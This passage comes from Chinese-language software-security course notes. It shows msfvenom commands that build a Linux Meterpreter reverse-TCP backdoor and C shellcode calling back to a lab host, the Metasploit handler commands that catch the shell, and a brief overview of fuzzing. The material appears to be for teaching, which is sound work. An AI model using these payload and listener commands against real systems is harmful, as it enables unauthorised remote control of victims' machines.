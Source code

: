 ```c
msfvenom -a x86 --platform Linux /*-p linux/x86/meterpreter/reverse_tcp*/ LHOST=192.168.56.103 LPORT=8848 -f elf -o backdoor
对应：
msf > use exploit/multi/handler
msf exploit(multi/handler) > /*set payload linx/x86/meterpreter/reverse_tcp*/
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 192.168.56.103
LHOST => 192.168.56.103
msf exploit(multi/handler) > set LPORT 8848
LPORT => 8848
msf exploit(multi/handler) > exploit
```

### 4）meterpreter

Meterpreter是Metasploit框架中的一个扩展模块，可以作为溢出成功以后的**攻击载荷**使用（如上），能够获得目标系统的一个Meterpreter shell的连接。

### 5）shellcode过程

```c
1.msfvenom -a x86 --platform linux -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.103 LPORT=8848 -f c -o metershellcode.c
2.gcc -m32 -z execstack -o a32.out call_shellcode.c
3.a32.out
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload linx/x86/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 192.168.56.103
msf exploit(multi/handler) > set LPORT 8848
msf exploit(multi/handler) > exploit
```

# 七.软件安全

## 1.模糊测试

### 1）模糊测试概述

测试用例（Test case)：用于验证软件功能**是否符合需求**的一组**输入**、**执行条件**和**预期结果**。

测试充分性（Test adequency)：评估测试质量的一个度量

**常见覆盖率指标**：**语句覆盖率**，**行覆盖率**，**边覆盖率**，**路径覆盖率**，**条件覆盖率**

**Fuzzing**：**随机输入**，**黑盒测试**(只检查程序的最后结果)，保存触发**非预期结果**的输入

手写Fuzzer?

### 2）现代模糊测试

:one:模型无关：通过蛮力方式生成输入（随机插入、删除、拼接）

:two:基于模型：遵循一个预定义的输入规范

